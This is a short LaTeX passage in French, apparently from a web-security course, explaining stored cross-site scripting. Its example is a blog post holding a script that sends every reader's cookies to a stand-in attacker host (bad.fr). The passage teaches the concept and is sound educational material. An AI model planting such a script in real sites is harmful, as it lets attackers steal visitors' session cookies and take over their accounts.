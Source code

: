\paragraph{Exemple de stored XSS :} 
Un cracker écrit un post sur le blog d'un site vulnérable, le contenu ci-dessous :
\begin{verbatim}
blablabla. <script>location.href='http://bad.fr/?cookie='+document.cookie</script>
\end{verbatim}
L'attaquant récupèrera les valeurs des cookies de tous les futurs lecteurs de son poste.
La figure~\ref{stored_xss} illustre ce principe dans le cas général.

\begin{figure}[!h]
	\begin{center}
		\includegraphics[scale=\scalekad]{images/xss/stored_xss}
		\caption{Attaque Stored XSS }		
		\label{stored_xss}
	\end{center}
\end{figure}


